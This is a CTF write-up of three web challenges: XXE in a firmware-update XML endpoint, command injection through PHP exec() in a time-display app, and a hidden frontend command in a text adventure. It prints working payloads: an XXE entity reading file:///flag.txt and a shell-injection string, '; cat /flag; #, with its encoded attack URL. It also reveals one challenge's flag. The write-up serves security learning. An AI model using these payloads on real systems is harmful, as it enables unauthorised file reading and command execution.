 
# 🛡️ CTF Challenge Write-Up: Three Real-World Exploits

**Author:** Raj Konkar  
**Date:** May 12, 2025

In this write-up, I detail three vulnerabilities exploited during my CTF practice sessions. These reflect real-world flaws and highlight how methodical analysis can lead to successful flag capture.

---

## 🧨 Exploit 1: XXE (XML External Entity Injection)

**Challenge Type:** Web – Firmware Update Simulation  
**Vulnerability:** Improper XML parsing in a POST endpoint  
**Affected Endpoint:** `/api/update`

### 🔍 Identification
The web app used a POST endpoint to submit XML data. By inspecting `update.js`, I noticed the content type `application/xml`, hinting that a vulnerable XML parser was in use. Testing with curl confirmed the endpoint behavior.

### 🔧 Exploit Payload
```xml
<!DOCTYPE FirmwareUpdateConfig [
  <!ELEMENT FirmwareUpdateConfig ANY >
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<FirmwareUpdateConfig>
  <Firmware>
    <Version>&xxe;</Version>
  </Firmware>
</FirmwareUpdateConfig>
```

### ✅ Result
The server response included the contents of `/flag.txt`, confirming a successful XXE-based file disclosure.

---

## 🧨 Exploit 2: Command Injection via PHP `exec()`

**Challenge Type:** Web – Time Display App (TimeKORP)  
**Vulnerability:** Command Injection  
**Affected Parameter:** `format`

### 🔍 Identification
Reviewing `TimeModel.php`, I found the `format` parameter passed directly into a shell command via `exec()`:
```php
$this->command = "date '+" . $format . "'";
```

### 🔧 Exploit Payload
```bash
'; cat /flag; #
```
Encoded:
```
%27%3Bcat%20/flag%3B%23
```
Final URL:
```
http://[target]/?format=%27%3Bcat%20/flag%3B%23
```

### ✅ Result
The server returned the contents of `/flag`, confirming successful command injection.

---

## 🧨 Exploit 3: Hidden Logic Command Trigger

**Challenge Type:** Web – Text-Based Adventure Game  
**Vulnerability:** Frontend-hidden logic validation bypass

### 🔍 Identification
The frontend validated commands using a JavaScript `availableOptions` object. Monitoring `/api/options` in DevTools revealed a hidden `"secret"` command:

```
"secret": ["Blip-blop, in a pickle with a hiccup! Shmiggity-shmack"]
```

### 🔧 Exploit
I entered the string exactly as shown in the interface:
```
Blip-blop, in a pickle with a hiccup! Shmiggity-shmack
```

### ✅ Result
The app triggered `/api/monitor` and returned:
```
HTB{D3v3l0p3r_t00l5_4r3_b35t_wh4t_y0u_Th1nk??!_ab637978c1631b43cc6040d8a1e544ba}
```

---

## 🧠 Key Takeaways

- Always inspect JavaScript and frontend logic.
- XML endpoints must be hardened against XXE.
- Direct use of `exec()` on user input is highly dangerous.
- CTFs mirror real-world flaws — practice translates into real pentesting skill.

---

> 📌 *For more CTFs and security tools, visit my GitHub: [https://github.com/rajkonkar](https://github.com/rajkonkar)*

